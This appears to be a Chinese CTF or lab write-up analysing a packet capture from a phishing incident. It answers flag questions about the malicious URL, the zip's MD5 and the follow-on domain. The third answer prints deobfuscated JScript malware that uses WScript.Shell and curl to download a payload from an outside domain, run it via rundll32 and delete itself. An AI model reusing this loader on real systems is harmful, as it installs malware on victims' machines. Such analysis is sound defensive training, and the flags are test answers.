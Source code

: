 # 第六章 流量特征分析 - 小王公司收到的钓鱼邮件

## 1

> 下载数据包文件 hacker1.pacapng，分析恶意程序访问了内嵌 URL 获取了 zip 压缩包，该 URL 是什么将该 URL 作为 FLAG 提交 FLAG（形式：flag\{xxxx.co.xxxx/w0ks//?YO=xxxxxxx\}） (无需 http、https)

筛选 http 流即可

```flag
flag{tsdandassociates.co.sz/w0ks//?YO=1702920835}
```

## 2

> 下载数据包文件 hacker1.pacapng，分析获取到的 zip 压缩包的 MD5 是什么 作为 FLAG 提交 FLAG（形式：flag\{md5\}）

![img](img/image_20240656-125644.png)

```flag
flag{f17dc5b1c30c512137e62993d1df9b2f}
```

## 3

> 下载数据包文件 hacker1.pacapng，分析 zip 压缩包通过加载其中的 javascript 文件到另一个域名下载后续恶意程序， 该域名是什么? 提交答案: flag\{域名 \}(无需 http、https)

对 Javascript 文件内的数据用以下正则进行匹配删除

```plaintext
\/\*.*?\*\/
```

然后再对其中的字符串处理进行预解码，得到

```javascript
x808919187 = 'true';
x449195806 = 'false';

v395493070(z986383452);

function k25931219(f684415514, p717292302) {
    d398776207 = '\"';
    d398776207 += f684415514;
    d398776207 += '\".match( \"';
    d398776207 += p717292302;
    d398776207 += '\" )';
    return s843092254(d398776207);
}

function w327424018(q853060332, q577476678, g985523219) {
    g281403925 = '(new ActiveXObject( \"WScript.Shell\") ).Run( \'';
    g281403925 += q853060332;
    g281403925 += '\', ';
    g281403925 += q577476678;
    g281403925 += ',';
    g281403925 += g985523219;
    g281403925 += ')';
    v395493070(function () {
        s843092254(g281403925);
    });
}

function v395493070(j712825305) {
    try {
        new n616719679(y302945094);
    }
    catch (t33400252) {
        w265553656 = 'undefined';
        if (k25931219(w265553656)) {
            j712825305();
        }
    }
}

function y18358769(u311868867) {
    s169557020 = 'cmd.exe /c del \"';
    s169557020 += u311868867;
    s169557020 += '\"';
    w327424018(s169557020, x449195806, x808919187);
}

function z986383452(n865649288) {
    f350474578 = 'WScript.ScriptFullName';
    d1887591 = '';
    d1887591 += '\\';
    d1887591 += '\\';
    z272081462 = s843092254(f350474578).replace(/\\/g, d1887591);
    y18358769(z272081462);
}

function u615667760(i750922179, u311868867) {


    u710353204 = 'cmd.exe /c echo|set /p=\"cu\"> \"%temp%\\\\dolorem.p.bat\"';
    w327424018(u710353204, x449195806, x808919187);

    u789315486 = 'cmd.exe /c echo rl \"';
    u789315486 += i750922179;
    u789315486 += '\" --output \"%temp%\\\\dolorem.p\" --ssl-no-revoke --insecure --location >> \"%temp%\\\\dolorem.p.bat\"';
    w327424018(u789315486, x449195806, x808919187);

    r831075319 = 'cmd.exe /c \"%temp%\\\\dolorem.p.bat\"';
    w327424018(r831075319, x449195806, x808919187);

    c529743610 = '%temp%\\\\dolorem.p.bat';
    y18358769(c529743610);

    h329414666 = 'cmd.exe /c ren \"%temp%\\\\dolorem.p\" ';
    h329414666 += u311868867;
    w327424018(h329414666, x449195806, x808919187);
}

function r418484478(u311868867) {

    m948706178 = 'rundll32 \"%temp%\\\\';
    m948706178 += u311868867;
    m948706178 += '\" Enter';
    w327424018(m948706178, x449195806);
}

function r581327250(u311868867) {
    y618891844 = 'cmd.exe /c \"%temp%\\\\';
    y618891844 += u311868867;
    y618891844 += '\"';
    w327424018(y618891844, x449195806);
}

function s843092254(p326825704) {
    return eval(p326825704);
}

o457607380 = 'https://shakyastatuestrade.com/IhA6F/616231603';
l988241708 = '';
l988241708 += 'q';
l988241708 += 'u';
l988241708 += 'i';
l988241708 += '.';
l988241708 += 'q';

u615667760(o457607380, l988241708);

r418484478(l988241708);
```

```flag
flag{shakyastatuestrade.com}
```
